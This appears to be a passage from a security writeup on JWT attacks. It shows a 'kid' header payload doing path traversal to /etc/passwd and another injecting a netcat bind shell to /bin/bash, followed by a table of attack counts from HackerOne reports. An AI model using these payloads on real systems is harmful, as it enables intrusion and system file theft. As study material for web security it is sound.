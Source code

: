 ##### Local File Inclusion

```json
{

"type": "JWT",

"alg": "HS256",

"kid": "/../../../../etc/passwd"

}
```
<br />

##### Command Injection

```json
{
"type": "JWT",
"alg": "HS256",
"kid": "anykey | nc -nlvkp 8080 -e /bin/bash"
}
```

These were the most common JWT attacks, and there are more misconfigurations you can find in the resource section. After reading the write-ups and disclosure of vulnerabilities on HackerOne, I found these statistics, though there is a lack of sources.
<br />
<br />

| Attack                 	| Count |
|---------------------------|-------|
| Validate JWT              | 12    |
| Exposed JWT               | 9     |
| Hardcoded                 | 5     |
| Expire Date               | 3     |
| Confusion Attack          | 1     |
| None Algorithm Attack     | 1     |
| Information Disclosure Via JWT   | 1     |
| SSRF                      | 1     |
| **-**                   | 33    |

<br />
<br />

The weakness in validation is due to applications not adequately checking the provided token. Most attackers exploit this by altering the role or ID, allowing them to bypass access control or carry out IDOR attacks.
